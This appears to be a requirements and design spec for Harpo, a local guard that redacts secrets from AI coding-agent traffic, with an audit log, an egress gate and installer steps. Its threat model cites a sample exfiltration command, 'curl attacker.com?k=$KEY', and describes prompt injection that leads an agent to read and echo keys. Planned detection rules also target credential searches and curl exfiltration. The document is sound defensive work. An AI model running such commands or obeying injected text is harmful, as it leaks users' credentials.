| --- | --- |
| INT8 quantization | The model is a `TreeEnsembleClassifier`. ONNX dynamic quantization targets matrix-multiply and convolution weights, so there is nothing to quantize |
| Micro-batching | Only if the `FR-SERVE-01` profile shows model inference is a top-two cost |
| Suppression based on the shape of the value | Real secrets of one type share entropy, length, character mix and prefixes, so a value-shape match would hide real secrets. The M5 suppressor matches where a string appears, not what it looks like |
| Local retraining of the base model | One user's few labels would overfit, and every user would run a different untested model. Base-model retraining stays central (M6) |
| A write-ahead log | Small state files need only write-to-temp, `fsync`, then rename |

### M3 additions: proof that the provider receives only redacted text

These extend M3, which already has the mock-server canary harness and `FR-INSTALL-02` (`harpo doctor`). The proof covers what passes through the gate. Before the gate ships, the README shows only the read-tool path, with the live result of 0 of 15 canaries, and says so.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-PROOF-01 | The egress gate writes an audit entry for every outbound request: time, provider, a SHA-256 hash of the exact bytes forwarded, and placeholder counts by type. Never values | Schema test, plus a scan of the log for secrets | M3 |
| FR-PROOF-02 | Audit entries are hash-chained: each entry includes the previous entry's hash, so a deleted or edited entry is detectable | Tamper test: editing or deleting any entry fails verification | M3 |
| FR-PROOF-03 | `harpo proof` shows the last N forwarded requests as hashes and placeholder counts, and verifies the chain. No request body is stored (Josh, Oct 21, 2026: a secret the detector missed must not get a second, local copy) | CLI test on a fixture log | M3 |
| FR-PROOF-04 | In CI, the mock provider records every request from scripted and live agent sessions over a seeded canary repo. Publish canaries received out of canaries planted | 0 known-format canaries received | M3 |
| FR-PROOF-05 | `harpo doctor` fails loudly when any configured agent sends traffic that bypassed the gate | Deliberately misconfigured agent is caught | M3 |
| DOC-DEMO-03 | README scene: an agent session next to `harpo proof`, showing placeholders where the canaries were | GIF in the README | M3 |

**G6: the findings log and the proof log** (spec of Oct 21, 2026; decided by Josh the same day). Two files in `~/.harpo`, both mode 0600, each rotated at 10 MB with one previous file kept (`<name>.1.jsonl`).

- **Findings log, `findings.jsonl` (FR-LOG-01).** One JSON line per finding: `time`, `event_type` (`secret_redacted`, `request_blocked` or `read_refused`), `layer` (`gate`, `read` or `hook`), `type` (the secret type, or null), `hash` (the placeholder's four hex characters, an HMAC prefix under the in-memory session key, SEC-02; null for the hook, which holds no key), `source` (the gate route, or the file path and tool), `action` (`redact`, `block` or `refuse`), `reason` (a block's reason code, or null) and `session_id`. The gate logs a redacted secret once per gate session, not on every turn that resends it; the read tool once per MCP session and file; the hook once per refused call and type. Never a value. A write failure never changes a decision.
- **Proof log, `proof.jsonl` (FR-PROOF-01, FR-PROOF-02).** One entry per request the gate forwards, written before it is sent: `seq`, `time`, `provider`, `route`, `bytes` and `sha256` of the exact bytes forwarded, `placeholders` (counts by type in what the provider receives), `prev` (the previous entry's hash) and `hash` (SHA-256 of the entry without it). A request whose entry cannot be written is blocked with HARPO-BLOCK-AUDIT (Josh, Oct 21, 2026: fail closed, so every request the provider got has an entry). `proof.head` holds the last hash and the first retained `prev`, so deleting the newest or the oldest entries is detected, not only an edit. Limit: anyone who can write `~/.harpo` can rebuild a consistent chain; the hook stops the agent from writing there (SEC-09), and a malicious local user is out of scope.
- **`harpo proof [--last N] [--json]` (FR-PROOF-03)** prints the last N entries and verifies the chain across both files; exit status 1 when verification fails. `harpo doctor` reports the chain's state too.
- The gate writes both logs only when started with `--audit-dir` (which `harpo guard up` passes), so a gate started by a test writes nothing to the user's home.
- **As built, Oct 21, 2026** (`cli/Harpocrates/audit.py`). A finding is a placeholder the layer made itself: one that was already in the request or the file (from `safe_read`, say) is not logged again. A block of a request without the gate token is not a finding, so a local program that lacks the token cannot fill the log and rotate older findings away; `harpo doctor`'s probe shows as one `request_blocked` line per run. Writers hold an flock on `<log>.lock`. The SHA-256 is of the body bytes as sent; headers are left out, and an authentication header is never logged (FR-INSTALL-05). An entry is written before the request is sent, so a request the provider then failed to answer (502) still has one. The hook logs refused reads (Read, Grep, and files a Bash command reads); its other refusals (edits, environment, the state folder) are not findings yet. A state folder that is a symlink or a file is never written through (SEC-09).
- **Decided by Josh, Oct 28, 2026: a chain that does not verify blocks every request** (HARPO-BLOCK-AUDIT) until the user moves `proof.jsonl`, `proof.1.jsonl` and `proof.head` aside: `proof.head` missing while entries exist, entries missing while it exists, a damaged last line, or a last line that is not the head's. The one exception is a last line that follows the head (written just before a crash); the chain moves on to it. Why: rebuilding the head silently would hide a removed tail, which is what the head is there to catch. The alternative, rejected, was to start a new chain on its own and log the break as a finding, which keeps the agents working but leaves the user to notice.

### M4: Serving and reliability

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-SERVE-01 **(Josh writes the analysis)** | Profile a full-repo scan and a history scan by stage: file reads, candidate extraction, features, model, output. Commit the profile script and results | Stage breakdown table in `docs/`, with the top two costs named | M4 |
| FR-SERVE-02 | A local detector daemon keeps the model loaded and serves scan requests over a Unix socket owned by the user, mode `0600` | Socket permissions test, plus a request/response test | M4 |
| FR-SERVE-03 | The hook becomes a thin client to the daemon. Consider writing the client in the existing Rust core, since Python startup alone costs tens of milliseconds (12 ms measured) | Hook tests pass unchanged against the daemon | M4 |
| FR-SERVE-04 | If the daemon is missing, slow or crashes, the hook falls back to in-process scanning within its time budget, and blocks if that also fails. It never allows by default | Kill, stall and garble-the-daemon tests: every case scans or blocks | M4 |
| NFR-03 | Warm hook latency for files up to 100 KB: p50 ≤ 25 ms and p95 ≤ 50 ms **(proposed)**, matching `NFR-01` | Latency benchmark over 1,000 calls in CI | M4 |
| NFR-04 | Cold fallback latency: p95 ≤ 350 ms **(proposed)** | Same benchmark with the daemon stopped | M4 |
| FR-REL-01 | History scans checkpoint by commit and resume after `kill -9` | Findings after kill and resume equal an uninterrupted scan exactly: 0 missed, 0 duplicated | M4 |
| FR-REL-02 | Every state file is written to a temp file, `fsync`ed, then renamed into place | Fault-injection test kills the writer at each step and finds no corrupt state | M4 |
| NFR-05 | Peak memory stays flat as history grows: ≤ 256 MB at both 1 million and 10 million lines **(proposed)** | Memory benchmark at both sizes | M4 |
| NFR-06 | Backfill throughput at least 2× the `FR-SERVE-01` baseline after fixing the top bottleneck, and scaling to 4 workers at ≥ 70% efficiency **(proposed)** | Throughput benchmark, lines per second | M4 |

### M5: Learns your false alarms, not your secrets

**Dropped (Josh, Oct 28, 2026):** no further ML work; the project's effort moves to other projects. The bundled model (v17) stays as shipped and keeps running in Python as the last step of every scan. M5's labeling, fingerprints and local suppressor are not built; the text below is kept as the record of the plan.

Three parts: a person labels uncertain blocks, exact fingerprints remember single values, and a small local model learns the places where false alarms appear.

**Asking the user.** The hook cannot show UI inside the agent session, and its time budget is 25 s (Codex documents 30 s). It must not wait for an answer. The read is refused immediately, as `FR-READ-06` requires, and the question is asked out of band. Before any code, a spec covers how each supported OS and agent shows the notification. **`FR-READ-06` wording change (proposed):** add "The read is refused without prompting; any question about it is asked separately, out of band (FR-ASK-01 to FR-ASK-07), never through the agent." The requirement and its tests otherwise stay as they are.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-ASK-01 | Ask only about uncertain ML findings. Use the calibrated probability `p` (isotonic, already in `model_config.json`). Ask when 0.20 ≤ p < 0.80 **(proposed)**: in that range the calibrated model is wrong 20% to 80% of the time. Above 0.80, block without asking and list the finding in `harpo review`. Never ask about known-format regex matches. Map the existing gate threshold onto the calibrated scale and document the mapping | Band test on fixture candidates at known probabilities | M5 |
| FR-ASK-02 | A desktop notification reads: "Harpo blocked a possible secret from Claude Code (or Codex). Is this a real secret?" It shows the secret type, file and line, the value masked with a local reveal option, and the confidence. The choices are "Real secret, keep blocking" (the default), "Not a secret, allow it here" and "Not sure, keep blocking". Clicking opens `harpo review`, a terminal UI that works without notifications | UI test, plus a headless test of `harpo review` | M5 |
| FR-ASK-03 | No answer, a timeout or "Not sure" keeps blocking and records no label | Timeout test | M5 |
| FR-ASK-04 | The agent cannot answer. Questions never go to the agent's channel. The hook refuses agent-run `harpo review`, `harpo allow` and `harpo learn` commands, extending the existing guard in `allowlist.py`. Label files sit under `~/.harpo`, which the hook and the harness deny rules protect from agent edits (`FR-NAME-04`, `SEC-09`) | Agent-initiated answer, allow and label-file edit are all refused | M5 |
| FR-ASK-05 | No more than 3 notifications an hour **(proposed)**. Batch the rest into `harpo review` | Rate-limit test | M5 |
| FR-ASK-06 | Hook latency is unchanged by asking: `NFR-03` holds with questions pending | Latency benchmark with a full question queue | M5 |
| FR-ASK-07 | Labeling study, once on Josh's machine and once with his team. Seed a session with 20 known-format canaries, 20 ML-only canary passwords and 20 benign look-alikes **(proposed)**. Measure questions per hour of agent work, answer accuracy and time to answer. Target: median ≤ 2 questions an hour, and no canary answered "Not a secret" **(proposed)** | Study report in `docs/` | M5 |
| FR-GATE-08 (extended) **(Josh writes)** | Extends the M3 `FR-GATE-08`. A "Not a secret" answer, or a `harpo allow`, stores an HMAC of the value with a per-install key kept outside the repo, plus the path and rule. Each is scoped to one repo, expires (default 90 days, **proposed**), is logged on every use, and only the user can add it, never the agent. Trade-off against `SEC-02`: fingerprints need a key that survives sessions, so this key is per install, not per session; `SEC-02` still governs placeholders and logs | A real secret with the same shape as an allowlisted one is still caught; an expired entry stops applying; agent-initiated adds are refused | M5 |

**The local suppressor.** A second, small, local model that retrains itself when enough similar false alarms pile up. It uses only context features, meaning where a string appears: the file path pattern and type, generated-file and lockfile markers, the key or field name, the enclosing structure (such as an `integrity` field in `package-lock.json`), and how often similar strings repeat in the file. It never uses value-shape features: entropy, length, character classes or prefixes.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-LEARN-01 | Retrain trigger: when one context cluster collects at least 5 "Not a secret" answers from at least 3 different files in a repo **(proposed)**, rebuild that repo's suppressor. It is a nearest-neighbor index or a logistic regression over context features, and rebuilds in seconds | Trigger test: 4 answers do nothing, 5 rebuild | M5 |
| FR-LEARN-02 | The suppressor's input contains no value-shape features | Feature-list test fails if any value-shape feature appears | M5 |
| FR-LEARN-03 **(Josh writes)** | The suppressor outputs a calibrated probability that a finding is a false alarm. It may suppress only when that probability is at least 0.95, measured on held-out answers. The 95% is confidence that the finding is a false alarm, not a similarity score | Calibration report on held-out answers | M5 |
| FR-LEARN-04 **(Josh writes)** | It never suppresses a known-format regex match, and never suppresses a finding the base model scores above 0.80 calibrated **(proposed)** | Canary test: known-format canaries planted inside learned contexts are always caught | M5 |
| FR-LEARN-05 **(Josh writes)** | Every suppression is logged. `harpo learn` lists each learned context with its examples and its count of suppressions, and can revoke it. A learned context expires after 90 days without a new answer **(proposed)** | Revoke and expiry tests | M5 |
| FR-LEARN-06 | The miss rate is measured and published. Plant ML-only canary passwords inside learned contexts and report how many are suppressed. This is the accepted risk of the feature, and the README states it | Report in the README | M5 |
| FR-LEARN-07 | Benchmark behind the claim. On held-out repos, chart real-code alarms per 1,000 files against the number of answers given. Target: at least 50% fewer alarms after 20 answers in a repo, with known-format canary recall unchanged **(proposed)** | Chart and raw results in `bench/results/` | M5 |
| DOC-DEMO-04 | README scenes: a question answered in `harpo review`, then the same kind of false alarm suppressed later while a planted known-format canary in the same file is still caught | GIFs in the README | M5 |

The tagline "learns your false alarms, not your secrets" may appear in the README only once `FR-LEARN-06` and `FR-LEARN-07` are published.

### M6: Model lifecycle

**Dropped (Josh, Oct 28, 2026):** no further ML work; the project's effort moves to other projects. The bundled model (v17) stays as shipped and keeps running in Python as the last step of every scan. M6 is not built; the text below is kept as the record of the plan.

The training pipeline was untracked in R0 (reproduce v17 at tag `v1.3.0`). `FR-ML-02` rebuilds it as one command.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-ML-01 | `harpo feedback export` writes only "Not a secret" answers as labeled rows: features, label, source, a hashed repo ID and a timestamp. Never values, real paths or real detections, since a real secret's features still reveal its length and character mix. The user sees every row before anything is shared, and sharing is always opt-in | Schema test, a scan of the export for secrets, and a test that true detections are never exported | M6 |
| FR-ML-02 **(Josh writes)** | One command retrains from a pinned snapshot with a fixed seed and produces the same model hash twice. It also writes `xgboost_model.json`'s entry into the hash manifest (`SEC-07`) | Reproducibility test | M6 |
| FR-ML-03 **(Josh writes)** | Splits are by repository. A repo that supplied labels never appears in the evaluation of those labels (`DATA-07`). No single contributor supplies more than 20% of a snapshot's labels **(proposed)**, to limit poisoning | Split audit and contributor-share tests | M6 |
| FR-ML-04 **(Josh writes)** | A CI evaluation gate decides on validation evidence only, as the README already requires. The benchmark and OSS test sets are reported after a model is frozen and never used to pick models (`DATA-09`) | Gate runs in CI on every candidate | M6 |
| FR-ML-05 **(Josh writes)** | Gate criteria. A candidate passes only if all hold **(proposed)**: (1) mean leave-one-LLM-family-out recall at least v17's, and no family more than 1 point lower, at matched alarm rates; (2) real-code alarm rate within 5% of 56.8 (gate) and 14.9 (commit) per 1,000 files at the new thresholds, or lower; (3) no secret type's validation recall more than 2 points below v17's; (4) calibration error on validation ≤ 0.05; (5) 0 known-format canaries leak in the canary harness; (6) inference time per candidate no more than 2× v17's | A deliberately worse model is rejected | M6 |
| FR-ML-06 **(Josh writes)** | A passing model runs in shadow beside the live one on the same inputs and logs where they disagree, without changing any decision | Shadow report with disagreement counts by type | M6 |
| FR-ML-07 | Models ship as versioned manifests (model hash, thresholds, data snapshot hash, gate report). The package keeps the previous model, and `harpo model rollback` switches to it | Rollback test restores the earlier hash and thresholds | M6 |
| FR-ML-08 | Feedback retrain target: on repos held out from the labels, real-code alarms fall at least 20% at unchanged family recall **(proposed)** | Before-and-after table in the README | M6 |

### M7: Org scanning service

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-STREAM-01 | A generator replays the commit history of public repositories, with planted canary secrets, as push events at a set rate | Rate test, plus a planted-canary manifest | M7 |
| FR-STREAM-02 | Events go to a 3-broker Redpanda topic in Docker Compose, keyed by repository so each repo's commits stay in order. Supersedes the Phase 2 "No Kafka" note (Josh, Oct 18) | Ordering test per repo | M7 |
| FR-STREAM-03 **(Josh writes)** | A consumer group of 3 scanner workers uses the shared detector, and commits offsets only after findings are written | Worker-kill test: 0 missed, 0 duplicated | M7 |
| FR-STREAM-04 **(Josh writes)** | Findings are stored with the fingerprint as a unique key, so redelivery is harmless | Replaying the same events twice leaves one finding each | M7 |
| FR-STREAM-05 | Commits that fail to parse or time out go to a dead-letter topic, with deterministic regex and entropy redaction as the fallback | Malformed-event test | M7 |
| FR-STREAM-06 | Survives a worker joining or leaving, and one broker stopping mid-run | 0 missed, 0 duplicated, rebalance under 30 s **(proposed)** | M7 |
| NFR-07 | Report the highest sustained commit rate at which lag does not grow. At that rate, end-to-end delay p95 ≤ 5 s, lag recovers within 60 s after a 5× burst, and lag is reported on a hot partition when one repo sends 10× the commits of the rest **(proposed)** | Load test report | M7 |

### M8: Detections, cloud and publication (deferred)

Deferred by Josh on Oct 18, 2026. Kept here so the IDs are reserved and the plan is complete. Needs a Linux VM Josh owns and an AWS sandbox account.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-DET-01 | Map Harpo to ATT&CK: T1552.001 Credentials In Files, T1552.004 Private Keys, T1567 Exfiltration Over Web Service | Mapping table in `docs/` | M8 |
| FR-DET-02 | The hook logs every decision as JSON: time, tool, path, decision and finding types. Never values | Log schema test, plus a scan of the log for secrets | M8 |
| FR-DET-03 | Sigma rules, each with an ADS document, for four Atomic Red Team T1552.001 tests on a Linux VM Josh owns, using auditd or Sysmon for Linux: Find AWS credentials, Extract passwords with grep, Search for Git Credential Files, Find .env Files Containing Application Credentials | Each rule fires on its recording | M8 |
| FR-DET-04 | Two Sigma rules over the hook decision log as a custom log source: a denied file retried through a script, and file contents sent out with `curl` | Each fires on its recording | M8 |
| FR-DET-05 | Rules run in CI against recorded attack logs and at least 8 hours of benign activity from the same VM **(proposed)** | Every rule fires on its attack and raises 0 alerts on benign logs | M8 |
| FR-CLOUD-01 | Terraform for a VPC, 1 m7i.xlarge running Redpanda, 4 c7i.xlarge (3 workers and 1 load generator), an S3 bucket for findings, least-privilege IAM roles and a CloudTrail trail | Josh reviews `terraform plan`; Harpo runs on it as a pre-commit hook | M8 |
| FR-CLOUD-02 | `terraform destroy` leaves no billable resources | A resource listing after destroy is empty | M8 |
| FR-CLOUD-03 | A canary secret in Secrets Manager, Stratus Red Team's `aws.credential-access.secretsmanager-retrieve-secrets`, and a Sigma rule over CloudTrail that catches it | The rule fires on the Stratus run and not on a day of normal account activity | M8 |
| FR-CLOUD-04 | A $25 billing alert exists before the first `apply` | A check script fails `apply` without it | M8 |
| NFR-08 | Six cloud runs of 4 hours: sustained, burst and skewed load. Budget ≤ $25 on demand **(proposed)** | Cost report with cost per million lines | M8 |
| NFR-09 (stretch) | Egress gate under 1, 10 and 50 concurrent agents: `NFR-01` holds at 10, with p99 ≤ 100 ms at 10 **(proposed)**. At 50, requests queue and then block, never pass unscanned | Concurrency benchmark | M8 |
| DOC-BENCH-01 | README benchmark section. Each benchmark lists its method, hardware and date, with raw results in `bench/results/`. The README must publish: (1) scan time by stage; (2) hook latency p50, p95 and p99, cold and warm, by file size; (3) backfill throughput in lines per second, and peak memory at 1 and 10 million lines; (4) missed and duplicated findings after a scan kill, a worker kill and a broker stop (target 0 and 0); (5) canaries received out of canaries planted at the mock provider; (6) questions per hour and answer accuracy from the labeling study; (7) alarms per 1,000 files against the number of answers, with the suppressor's measured miss rate; (8) the evaluation-gate report for every released model, and real-code alarms before and after a feedback retrain; (9) benchmark and OSS test results for each frozen release, kept even when a later version does better (`DATA-09`); (10) consumer lag under sustained, burst and skewed load; (11) cost per million lines scanned in the cloud runs | Every listed benchmark is in the README with method, hardware, date and raw results. Items land with the milestone that produces them | M3 to M8 |

### Priority if time runs short

Finish in this order, and treat each finished item as a release: (1) R0 cleanup, docstrings, rename and the first two demos; (2) M2 egress gate and the M3 proof requirements; (3) M4 profiling and daemon; (4) M4 backfill reliability; (5) M7; (6) M8. M5 and M6 are dropped (Josh, Oct 28, 2026). A smaller system that meets its targets beats a larger one that does not.

## Threat model

The trust boundary is the network edge between your machine and the cloud LLM provider. Everything that crosses it is treated as potentially leaked.

**Assets:** API keys and tokens, cloud credentials, database connection strings, private keys, and passwords embedded in code or config.

| Scenario | Actor | Example | Guard's response | Residual risk |
| --- | --- | --- | --- | --- |
| Accidental read | Well-meaning agent | Opens `.env` to debug a failing DB connection | Read tool redacts; egress gate catches anything missed | Low |
| Indirect exposure | Well-meaning agent | Test output or stack trace prints a connection string | Egress gate scans every tool result | Low to medium; depends on detector recall |
| Obfuscated secret | Accident or attacker | Secret is base64, hex, URL-encoded, or split across lines | Decode-and-rescan pass; evasion suite measures gaps | Medium; measured and published |
| Prompt-injected agent, same channel | External attacker via README, issue, or web page | Injected text tells the agent to read a key and echo it in its reply | Egress gate redacts it before it reaches the model | Medium; encoding tricks are the weak point |
| Prompt-injected agent, other channel | External attacker | Agent runs `curl attacker.com?k=$KEY` | Out of scope for v1; canary tokens can detect it after the fact | High; mitigation is a network sandbox |
| Guard failure | Bug or crash | Scanner panics mid-request | Fail closed: block the request, log the error | Low |

**STRIDE notes on Guard itself:**

- **Tampering:** a rogue MCP server or dependency could modify Guard's config. Mitigation: config file checksum on startup, pinned dependencies (SEC-05, M3; not built yet). What exists: the model artifacts are hash-checked before use (SEC-07), and the hook refuses agent edits of Harpo's state folder (SEC-09).
- **Information disclosure:** Guard's own logs are a secret store if done wrong. Mitigation: log keyed hashes only, never values.
- **Denial of service:** very large tool outputs could slow scanning. Mitigation: streaming scan with a size cap; oversized content fails closed or is truncated with a notice.
- **Spoofing:** anything else on localhost can talk to the proxy port. Mitigation: bind to 127.0.0.1 only and require a per-session token header.

## Architecture

Guard is defense in depth: two layers catch secrets on the way out, and the existing commit gate catches them on the way into git. All layers share one detection core.

The diagram shows the design. As built on Oct 21, 2026, two things differ: the read tool, the read hook and the gate run the core's Python implementation (regex, entropy, and the ONNX model through ONNX Runtime), while the Rust scanner backs `harpo scan` when its binary is present; and the audit log is two files, `~/.harpo/findings.jsonl` for findings from every layer and the hash-chained `~/.harpo/proof.jsonl` of what the gate forwarded (G6). `harpo install` sets up the read tool, deny rules and hooks; `harpo guard up` starts the gate and routes the agents to it (G7).



| Component | What it does | Status (Oct 21, 2026) | Language |
| --- | --- | --- | --- |
| harpo-core | Three-stage detector (regex, Shannon entropy, XGBoost via ONNX) with secret-type labels and calibrated confidence. Every file is scanned whole, in bounded pieces, under a memory cap (FR-CORE-05). Planned: a decode-and-rescan pass for base64, hex and URL encoding (FR-CORE-04). | Merged in M0; types and calibration in M1. FR-CORE-04 not built (the gate's FR-GATE-11 rule decodes base64 inside request text only). FR-CORE-05 built Oct 21 (both engines, the read tool and the hook). | Python package `Harpocrates` (used by every layer), plus a Rust scanner binary in `core/` that `harpo scan` calls over a JSON batch protocol (`engine=auto`); no in-process bindings |
| harpo-read | MCP server with `safe_read` and `safe_grep`, and the `PreToolUse` hook that refuses built-in reads of secret-bearing files. Paired with agent config that denies the built-in read tool on sensitive paths. | Done (M1) | Python (`read.py`, `hooks.py`, `mcp/`) |
| harpo-gate | Local HTTP proxy. The agent's API base URL points here. Parses every request body, scans all text and tool-result blocks, redacts, then forwards over TLS to the real provider. Streams responses back unchanged. | Built for Anthropic Messages and OpenAI Responses (M2, see Progress). `harpo guard up` runs it in the background and routes the agents to it; `harpo guard down` takes them off it; `harpo doctor` checks the setup (G7) | Python (`gate/`; planned as Rust, written in Python first) |
| harpo-commit | `harpo scan` and the pre-commit hook, plus a GitHub Action and SARIF output for GitHub code scanning. | `harpo scan` and the pre-commit hook exist; SARIF and the Action (FR-COMMIT-02, M3) do not | Python CLI over core |
| Audit log | One JSONL line per finding: timestamp, layer, secret type, keyed hash prefix, source path or tool name, action taken. | Built Oct 21 (G6): `~/.harpo/findings.jsonl` from the gate, the read tool and the hook, beside the gate's request log and `~/.harpo/allow.log` | Shared |

**Why two layers on the way out:** the read tool alone is incomplete, because the agent can still `cat` a file through the shell. The egress gate sees everything sent to the model, whatever tool produced it. That is the reference-monitor property called complete mediation. The read tool still earns its place: it has file context (path, type) that improves accuracy, and it redacts before the agent's own local context holds the secret.

**Why a proxy needs no TLS interception:** the agent sends plain HTTP to 127.0.0.1, and Guard opens its own TLS connection upstream. There is no certificate trickery. Harness support and installer lists how each agent is pointed at the gate, and which ones can't be.

**Target repo layout**

```
harpocrates/
  core/            Rust scanner binary (FR-CORE)
  cli/Harpocrates/ The Python package: detector, read tool and hook (FR-READ), gate/ (FR-GATE),
                   install and doctor (FR-INSTALL), harpo CLI and pre-commit (FR-COMMIT, FR-UX)
  cli/tests/       Unit, integration and end-to-end tests, named after requirement IDs
  inspect/         Repo preflight, added in v1.2 (FR-PF)
  bench/           Detector, leakage, evasion, red-team, utility, latency suites
  bench/canaries/  Fake secrets only, generated by script
  docs/            design.md, threat-model.md, parser specs, data.md, bypasses.md
```

**As built (Oct 21, 2026).** The read tool, hook and gate live in the Python package, not in top-level folders: `cli/Harpocrates/` holds `read.py`, `hooks.py`, `mcp/`, `gate/`, `install.py` and `harness.py` (the per-harness install code that `adapters/` was meant for), with tests in `cli/tests/`. The Rust scanner is in `core/`; the mock provider, canary harness and end-to-end suites are in `bench/`, with generated canaries from `bench/canary_repo.py` and `bench/canaries/`. `inspect/` (v1.2) does not exist yet.

**Layout decided (Josh, Oct 21, 2026):** the code stays where it is. The original target's `read/`, `gate/` and `adapters/` folders are dropped, since moving them would change every import and the installed hook commands for no change in behavior.

## Harness support and installer

Not every coding harness can be routed through a local proxy, so Harpocrates states a support tier per harness instead of implying equal protection. The installer is one adapter per harness, verified by a live check after setup. (Checked Sep 27, 2026.)

| Harness | Tier | Request format | How traffic reaches the gate | Known issues |
| --- | --- | --- | --- | --- |
| Claude Code | Full | Anthropic Messages | [`ANTHROPIC_BASE_URL`](https://code.claude.com/docs/en/llm-gateway) in Claude Code settings | Subscription logins still work; the gate must forward the OAuth `anthropic-beta` header untouched |
| Codex CLI | Full | OpenAI Responses | Custom provider in user-level `~/.codex/config.toml`; [project-level provider keys are ignored](https://learn.chatgpt.com/codex/config-file/config-reference) | zstd request bodies and WebSocket transport apply only to the built-in `OpenAI` provider. A custom provider with `supports_websockets` off (the route Harpo uses) gets plain HTTP with SSE, no compression and full history every turn (`docs/gate-transport.md`) |
| OpenCode | Full, per provider | Varies by provider | Provider `baseURL` in [opencode.json](https://opencode.ai/docs/config/) | A repo's own `opencode.json` can override global config |
| GitHub Copilot, own API key | Partial | OpenAI Chat Completions | [Custom endpoint for chat and agent](https://developer.konghq.com/cookbooks/github-copilot-byok/) | Inline completions and Copilot-hosted models never pass through the gate |
| Cursor | Read tool only | n/a | [Base URL override covers only the chat panel](https://docs.orq.ai/ai-studio/integrations/code-assistants/cursor) | Agent, Composer, and tab completion stay on Cursor's backend; possibly routed server-side (unverified) |

**Installer requirements**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-INSTALL-01 | One adapter per harness that writes gate routing, MCP registration, and read-deny rules in that harness's own config format and location | Adapter tests per harness on a clean machine | M2 |
| FR-INSTALL-02 | `harpo doctor` checks, on this machine only, that each configured harness is routed to a running gate with the current token, and fails loudly when any setting bypasses the gate. Local checks only (Josh, Oct 21, 2026): no canary is sent through the agents or to a provider | Deliberately broken config is detected as bypass | M2 |
| FR-INSTALL-03 | Print the support tier for each detected harness; tell Read-tool-only users plainly what isn't protected | Output reviewed for each tier | M1 |
| FR-INSTALL-04 | Decode gzip and zstd request bodies; fail closed on any unknown `Content-Encoding` | Compressed Codex requests scanned; unknown encoding blocked | M2 |
| FR-INSTALL-05 | Forward authentication headers untouched, including subscription and OAuth headers, and never log them | Claude Code subscription session works through the gate | M2 |
| FR-INSTALL-06 | Prefer settings files over shell environment variables, since IDE extensions launched from a dock or menu don't inherit shell variables | IDE-launched session routes through the gate | M2 |
| FR-INSTALL-07 | If a base URL or gateway is already configured, chain to it as Guard's upstream instead of overwriting it | Existing gateway still receives traffic | M3 |
| FR-INSTALL-08 | Back up every config file before editing; installs are idempotent; `harpo guard down` restores originals exactly | Byte-identical restore after install and uninstall | M2 |
| FR-INSTALL-09 | Record the harness versions each adapter was tested against; doctor warns on untested versions | Version table in `docs/`; warning shown | M3 |
| FR-INSTALL-10 | Where the harness supports lifecycle hooks (Claude Code, Codex), use them for placeholder-write warnings and `tool_invoked` logging | Hook events appear in the audit log | M3 |

### G7: `harpo guard up`, `harpo guard down` and `harpo doctor`

Spec of Oct 21, 2026. Decided by Josh the same day: the gate runs in the background with a pid file; doctor runs local checks only; a harness that already has its own base URL or gateway is refused, and chaining to it stays FR-INSTALL-07 (M3). Requirements: FR-INSTALL-01 (gate routing), FR-INSTALL-02, FR-INSTALL-06, FR-INSTALL-08, FR-UX-01, SEC-03, gate decision 11.

**`harpo guard up [--port N] [--dry-run]`**, in this order, so nothing is routed to a gate that is not answering:

1. The state folder is usable (SEC-09) and the install record readable.
2. Every edit is planned in memory first. A harness whose config already routes elsewhere is refused and gets nothing: for Claude Code, an `ANTHROPIC_BASE_URL`, an `ANTHROPIC_CUSTOM_HEADERS` or any `CLAUDE_CODE_USE_<provider>` that is on in the `env` of `~/.claude/settings.json` and was not written by Harpo; for Codex, a `model_provider`, an `openai_base_url` or a `[model_providers.harpo]` outside Harpo's block in `~/.codex/config.toml`. With no harness left, guard up stops.
3. A gate that Harpo started earlier is stopped.
4. A new token (decision 11) goes to `~/.harpo/gate.token` (mode 0600). The gate starts detached as `python -m Harpocrates.gate --port N --token-file …` (default port 47321), its pid in `~/.harpo/gate.pid` and its request log in `~/.harpo/gate.log` (both 0600). Guard up waits up to 10 s for the gate's listening line; without it, the gate is stopped and nothing is written.
5. The routing is written. Claude Code: `env` in `~/.claude/settings.json` gets `ANTHROPIC_BASE_URL` (`http://127.0.0.1:N`) and `ANTHROPIC_CUSTOM_HEADERS` (`x-harpo-gate-token: <token>`), the settings file being preferred over shell variables (FR-INSTALL-06). Codex: a marked block (`# >>> harpo gate >>>`) in `~/.codex/config.toml` sets `model_provider = "harpo"` and `[model_providers.harpo]` with `base_url = "http://127.0.0.1:N/v1"`, `wire_api = "responses"`, `requires_openai_auth = true` and the token in `http_headers` (route A, `docs/gate-transport.md`).
6. Last, the install record gets `"gate": {"enabled": true, "port": N, "token_header": "x-harpo-gate-token", ...}`, which turns on the hook's SEC-10 check. `harpo install` keeps this entry when it rewrites the record.

Running guard up again replaces the gate and the token; agent sessions started before then must be restarted.

**`harpo guard down [--dry-run]`** removes the routing, then the record entry, then stops the gate. A file that is unchanged since guard up wrote it gets its exact earlier bytes back, from a snapshot kept in `~/.harpo/gate-snapshots/` (0600), or is deleted if guard up created it (FR-INSTALL-08). A file edited since then loses only Harpo's lines, and guard down says so.

**Failure behavior.** While the agents are routed to the gate, a stopped or crashed gate means their requests fail to connect: nothing is ever sent unscanned. After a reboot, run guard up again. There is no login service in v1.

**`harpo doctor [--json]`** checks, locally: the state folder and the install record; the gate entry; that the pid in `gate.pid` is alive and is a Harpo gate; that the port answers, a request without the token gets 401 HARPO-BLOCK-TOKEN, and a request with it to an unknown route gets 400 HARPO-BLOCK-ROUTE (neither is forwarded); that each routed harness's config names the gate's port and the current token; the SEC-10 findings (`gatecheck.bypass_findings`) for the current folder; and whether the read hook is installed. Each failing check names its fix. Exit status 1 if any check fails.

**Not in G7:** a login service, chaining to an existing gateway (FR-INSTALL-07), the tested-versions table (FR-INSTALL-09), OpenCode and Copilot.

**Scope:** Claude Code and Codex are required for v1. OpenCode and Copilot adapters ship in v1 only if M3 has room; otherwise they move to v1.1. Cursor gets the read tool only, plus documentation of its limits.

## Product and portfolio map

